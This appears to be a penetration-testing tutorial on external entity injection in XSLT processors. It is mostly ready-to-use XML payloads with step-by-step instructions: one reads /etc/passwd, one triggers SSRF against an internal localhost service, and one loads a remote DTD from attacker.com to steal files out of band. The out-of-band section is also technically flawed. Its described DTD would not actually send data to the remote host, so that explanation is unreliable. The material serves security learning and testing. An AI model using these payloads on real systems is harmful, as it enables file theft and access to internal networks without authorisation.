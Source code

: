 ```yaml
---
title: Exploiting XSLT Processors via External Entity Injection
description: Learn how to exploit XSLT processors through XXE to access files and
  trigger SSRF attacks.
keywords:
- XSLT injection
- external entity
- XXE attacks
- file read
- SSRF
- DTD inclusion
- entity expansion
- cybersecurity
- XSLT processors
---
```


# External Entity

## Context

This guide aims to demonstrate the exploitation of XSLT processors through external entity injection to read files or trigger Server-Side Request Forgery (SSRF). It assumes familiarity with XML structure and parsing, the basics of XSLT processing, DTD (Document Type Definition), and general XSLT injection techniques.

## Theory

### External Entity Injection in XSLT Context

External Entity (XXE) injection abuses XML parsers' ability to resolve external entities, enabling an attacker to read local files or perform SSRF attacks. XSLT processors can parse embedded DTDs, allowing attacker-supplied entity definitions to be executed. If an XSLT input is attacker-controlled and entity resolution is enabled, it can lead to unauthorized access to files and network resources.

### Entity Declaration and Expansion Mechanics

ENTITY declarations in DTDs define reusable values, which can reference local files or network resources. An attacker can inject ENTITY definitions, reference them in an XSLT transformation, and trigger unwanted file or network access. A lack of restrictions on entity resolution in XSLT processors exposes the file system and internal network services to attacks.

### Parameter Entities and External DTD Inclusion

Parameter entities can be leveraged to include external DTDs, which facilitates advanced attacks. Attackers can inject a parameter entity referencing a remote DTD that further defines malicious entities to enhance the initial attack vector.

### Entity Expansion and Out-of-Band Exfiltration

Through entity expansion, an attacker can exfiltrate file contents via error messages or network requests, known as Out-of-Band (OOB) attacks. For instance, defining an entity to reference a file and using it in a URL can result in unauthorized data retrieval.

## Practice

### File Read via External Entity Injection in XSLT

- **Payload:**
  
  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE xsl:stylesheet [
    <!ENTITY ext_file SYSTEM "file:///etc/passwd">
  ]>
  <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
    <xsl:template match="/">
      <xsl:value-of select="'&ext_file;'"/>
    </xsl:template>
  </xsl:stylesheet>
  ```

  This payload injects an ENTITY to read the `/etc/passwd` file and outputs its contents via XSLT transformation.

- **Execution:**
  - Submit the payload as an XSLT input to the vulnerable application.
  - Observe the application response for contents of the file.

- **Outcome:**

  The attacker reads arbitrary files from the server through XSLT entity expansion.

### SSRF via External Entity in XSLT

- **Payload:**

  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE xsl:stylesheet [
    <!ENTITY ext_url SYSTEM "http://localhost:8080/internal">
  ]>
  <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
    <xsl:template match="/">
      <xsl:value-of select="'&ext_url;'"/>
    </xsl:template>
  </xsl:stylesheet>
  ```

  This payload defines an ENTITY referencing an internal HTTP service, triggering SSRF when expanded.

- **Execution:**
  - Submit the payload as an XSLT input to the vulnerable application.
  - Monitor the internal service for requests or observe the application response.

- **Outcome:**

  The attacker triggers SSRF to internal resources via XSLT entity expansion.

### Out-of-Band Exfiltration via Parameter Entity and External DTD

- **Payload:**

  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE xsl:stylesheet [
    <!ENTITY % ext SYSTEM "http://attacker.com/malicious.dtd">
    %ext;
  ]>
  <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
    <xsl:template match="/">
      <xsl:value-of select="'&exfil;'"/>
    </xsl:template>
  </xsl:stylesheet>
  ```

  This payload loads an external DTD from an attacker-controlled server, which defines the `&exfil;` entity for OOB data theft.

- **Execution:**
  - Host `malicious.dtd` on `attacker.com` to define `ENTITY exfil SYSTEM "file:///etc/passwd"`.
  - Submit the payload as XSLT input and monitor `attacker.com` for requests.

- **Outcome:**

  The attacker exfiltrates file contents to a remote server using OOB XXE in XSLT.

## Tools

- **Burp Suite**
- **curl**
- **nc**